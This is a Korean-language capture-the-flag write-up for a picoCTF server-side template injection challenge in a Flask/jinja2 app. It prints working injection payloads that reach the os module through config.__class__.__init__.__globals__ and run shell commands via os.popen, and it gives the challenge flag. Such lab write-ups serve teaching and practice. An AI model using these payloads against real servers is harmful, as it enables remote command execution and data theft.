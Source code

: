 # Challenge: picoCTF - SSTI

## 문제 설명 & 접근
Server-Side Template Injection(서버 측 템플릿 인젝션, SSTI) 취약점
form에 {{1+1}}을 입력하여 제출하면 화면에 2가 뜬다.=> jinja2

## 필요한 개념
#### 템플릿 랜더링
1. 사용자 입력이 템플릿 엔진으로 처리될 때, 적절한 검증이 없어 악의적인 입력이 서버에서 실행될 수 있는 취약점
2. 주로 python (jinja2), PHP (Twig), Java(FreeMarker)와 같은 서버에서 템플릿 랜더링 쓰는 환경에서 발생
3. 참고로 CTF 대부분은 Python Flask 기반 웹앱을 사용하며 Flask는 기본 템플릿 엔진으로 jinja2를 사용한다.

#### 내부 객체 접근
jinja2에서 공격자가 접근 가능한 템플릿 상수 객체에 config, self, request 등이 있다.
1. `config` : 현재 환경의 config 객체
2. `config.__class__` : config 객체의 클래스 (Flask Config class)
3. `config.__class__.__init__` : 클래스 생성자 함수
4. `config.__class__.__init__.globals__` : 생성자의 전역변수 딕셔너리
* `__globals__`라는 속성은 python에서 클래스나 객체에는 없고, 함수 객체에 존재한다. 보통 init의 전역공간에 os, sys, builtins 등의 모듈이 올라와있으니 이걸 활용하면 그 함수가 이미 import한 걸 재활용 가능(아래 내용 참고)
* 일반적으로 템플릿은 샌드박스 환경이기에 import는 할 수 없다. 그래서 위와 같은 간접적인 방식을 사용하는 것

#### 파이썬에서의 import
1. python에서 어떤 함수나 클래스가 정의될 때 그 함수가 포함된 파일의 가장 상단에 import된 모듈은 그 함수의 global namespace에 들어간다. 
    ```python
    # config.py
    import os

    class Config:
        def __init__(self):
            self.secret = os.getenv("SECRET")  # os 사용함
    ```
위 코드에서 init 함수는 정의할 때 os를 쓸 수 있었다. 따라서 `config.__init__.__globals.__['os']`라 쓰면 os 모듈 객체를 그대로 쓸 수 있다.

## 문제 분석
1.config를 입력하면 아래 출력물이 나온다. 이는 flask 내부의 config 클래스 인스턴스
```html
<Config {'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'SECRET_KEY': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>
```
2.이제 `{{config.__class__}}`를 입력해보자. 아래 출력물이 나온다.
<class 'flask.config.Config'> 

3.`{{config.__class__.__init__.__globals__}}`를 입력하면, 전역변수가 쭉 출력된다.
4.`{{config.__class__.__init__.__globals__['os']}}`를 입력하면 dict의 value가 다음과 같이 나온다. 
<module 'os' from '/usr/lib/python3.8/os.py'>

5.`{{config.__class__.__init__.__globals__['os'].popen('pwd').read()}}`로 현재 디렉터리 확인 가능. /challenge라 뜬다. os.popen()은 python에서 리눅스 명령어를 실행하고, 그 출력 결과를 python에서 읽어오는 함수

6.`{{config.__class__.__init__.__globals__['os'].popen('ls -al').read()}}`로 디렉터리 내 파일을 보면 flag라는 이름을 가진 파일이 있다. 



## ✅ 풀이

```python
{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}
```
결과
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}